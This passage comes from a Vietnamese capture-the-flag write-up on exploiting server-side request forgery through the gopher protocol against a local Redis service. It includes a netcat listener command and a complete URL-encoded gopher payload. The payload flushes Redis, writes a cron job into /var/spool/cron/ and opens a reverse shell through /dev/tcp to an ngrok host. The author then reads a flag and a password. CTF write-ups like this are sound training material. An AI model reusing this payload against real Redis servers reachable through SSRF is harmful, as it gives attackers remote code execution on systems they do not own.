 3. Trước khi upload shell này em cần: 
    - `nc -lvp 1234` Để lắng nghe port 1234.
    - Sửa lại payload vì port sau khi em ngrok là 12500 chứ không phải 1234 như tool Gopherus tạo
    
4. Gửi payload:
    `gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/12500%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A`
    
    Và chờ...
    
Sau khi đã reverseshell thành công thì ta chỉ cần `ls` và `cat` file flag thôi:

![](https://i.imgur.com/14gDHnb.png)

Tiếp theo là lấy `passwd` cho Validation Room:

![](https://i.imgur.com/EeuPxnI.png)

## Kết luận
Write up trôi như vậy dĩ nhiên là vì em đã đi tham khảo những bài write up khác, qua bài này em học được rất kiểu kỹ thuật mới cũng như là các tool mới. 

Trân thành cảm ơn tác giả của cách post:
https://nhattruong.blog/2022/04/30/write-up-root-me-server-side-request-forgery/
https://nhienit.wordpress.com/2020/10/20/exploit-ssrf-voi-gopher-protocol/
https://5h4s1.wordpress.com/2022/04/29/task-8/

Và đặc biệt là cảm ơn:

![](https://i.imgur.com/fr2m83N.png)
